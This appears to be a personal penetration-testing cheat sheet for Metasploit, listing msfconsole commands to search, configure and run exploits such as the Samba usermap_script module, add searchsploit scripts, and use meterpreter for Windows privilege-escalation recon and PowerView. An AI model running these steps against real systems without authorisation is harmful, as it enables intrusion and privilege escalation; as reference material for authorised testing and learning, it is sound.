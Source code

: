 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["metasploit", "exploit", "vuln", "CVE", "privesc", "meterpreter", "Windows", "msfconsole", "searchsploit"]
---
```


{{< tab set1 tab1 active >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start msfconsole

<div>

```console
msfconsole -q
```

</div>

#### Basic Commands

<div>

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# quit metasploit
exit
```

</div>

#### Search Exploit

<div>

```console
# For example: samba
search samba
```

```console
# Choose by #num
use 15
```

```console
# Choose by full path
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

</div>

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add scripts from searchsploit

<div>

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search 12345
```

</div>

#### Fix no search result

<div>

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go bask to msfconsole and check again
db_status
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Basic Commands

<div>

```console
# Return from meterpreter
background
```

</div>

#### Use Exploit

<div>

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

</div>

#### Use powershell

<div>

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

</div>

{{< /tabcontent >}}

<br>